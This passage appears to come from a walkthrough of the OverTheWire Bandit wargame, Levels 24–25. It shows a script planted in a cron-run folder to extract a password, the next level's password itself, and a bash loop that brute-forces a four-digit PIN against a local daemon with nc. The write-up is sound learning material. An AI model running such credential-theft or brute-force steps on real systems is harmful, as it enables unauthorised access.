 Copy the password extraction script into the target folder:
```
cp bandit24_pass.sh /var/spool/bandit24/foo/bandit24_pass.sh
```

Now you need to wait at most one minute for the cronjob to execute, and then read the password file.

Password:\
`gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`

### References
[Level 24 writeup since permissions matter](https://mayadevbe.me/posts/overthewire/bandit/level24/)

## Level 25
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time

## Solution
The description likely calls for a brute force script to brute force 4-digit pincodes on port 30002.

See how the brute force login will work by testing it out:
```
bandit23@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga 0000
Wrong! Please enter the correct current password and pincode. Try again.
```

We can see that wrong responses will say "Wrong", so we can filter it out in results.

To host the script file, make a temp directory and create the script:
```
bandit24@bandit:~$ mktemp -d
/tmp/tmp.HmhRMQGWoV
bandit24@bandit:~$ cd /tmp/tmp.HmhRMQGWoV
bandit24@bandit:/tmp/tmp.HmhRMQGWoV$ vi brute-force.sh
bandit24@bandit:/tmp/tmp.HmhRMQGWoV$ chmod +x brute-force.sh 
```

Create the brute force script
```
#!/bin/bash

PASSWORD=gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
PORT=30002
SECRETS=secrets.txt
OUTPUT=results.txt

for i in {0000..9999}; do
    SECRET="$PASSWORD $i"
    echo "$SECRET" >> $SECRETS
done

cat $SECRETS | nc localhost $PORT > $OUTPUT
```
